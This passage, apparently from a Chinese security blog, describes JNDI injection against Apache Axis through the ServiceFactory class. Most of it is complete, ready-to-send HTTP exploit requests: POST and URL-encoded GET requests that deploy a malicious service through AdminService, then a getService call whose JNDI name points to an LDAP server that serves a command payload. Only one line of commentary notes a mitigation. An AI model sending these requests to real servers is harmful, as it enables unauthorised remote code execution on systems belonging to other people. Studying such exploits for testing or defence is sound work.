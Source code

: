 ### org.apache.axis.client.ServiceFactory
很明显的JNDI注入
![](https://img-blog.csdnimg.cn/7086a5eaadf74075b58a23622aea1b11.png)

POST请求：
```xml
POST /axis/services/AdminService HTTP/1.1
Host: 127.0.0.1:8080
SOAPAction: ""
Content-Type: application/xml; charset=utf-8
Content-Length: 755

<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:api="http://127.0.0.1/Integrics/Enswitch/API" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
  <soapenv:Body>
    <ns1:deployment xmlns:ns1="http://xml.apache.org/axis/wsdd/" xmlns="http://xml.apache.org/axis/wsdd/" xmlns:java="http://xml.apache.org/axis/wsdd/providers/java">
      <ns1:service name="ServiceFactoryService" provider="java:RPC">
        <ns1:parameter name="className" value="org.apache.axis.client.ServiceFactory"/>
        <ns1:parameter name="allowedMethods" value="*"/>
      </ns1:service>
    </ns1:deployment>
  </soapenv:Body>
</soapenv:Envelope>
```
GET请求：
```
GET /axis/services/AdminService?method=!--%3E%3Cdeployment%20xmlns%3D%22http%3A%2F%2Fxml.apache.org%2Faxis%2Fwsdd%2F%22%20xmlns%3Ajava%3D%22http%3A%2F%2Fxml.apache.org%2Faxis%2Fwsdd%2Fproviders%2Fjava%22%3E%3Cservice%20name%3D%22ServiceFactoryService%22%20provider%3D%22java%3ARPC%22%3E%3Cparameter%20name%3D%22className%22%20value%3D%22org.apache.axis.client.ServiceFactory%22%2F%3E%3Cparameter%20name%3D%22allowedMethods%22%20value%3D%22*%22%2F%3E%3C%2Fservice%3E%3C%2Fdeployment HTTP/1.1
Host: 127.0.0.1:8080
```
通过get或post请求部署完成后，访问刚才部署的service并调用它的getService方法，传入jndi链接即可：
```xml
POST /axis/services/ServiceFactoryService HTTP/1.1
Host: 127.0.0.1:8080
Content-Type: text/xml; charset=utf-8
SOAPAction: ""
Content-Length: 759

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:buil="http://build.antlr">
  <soapenv:Header/>
  <soapenv:Body>
    <buil:getService soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
      <environment xmlns:apachesoap="http://xml.apache.org/xml-soap" xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/" xsi:type="apachesoap:Map">
        <item>
          <key xsi:type="soapenc:string">jndiName</key>
          <value xsi:type="soapenc:string">ldap://127.0.0.1:1389/Basic/Command/calc</value>
        </item>
      </environment>
    </buil:getService>
  </soapenv:Body>
</soapenv:Envelope>
```
>缺陷：如果设置了不允许远程加载JNDI Factory，就不能用了
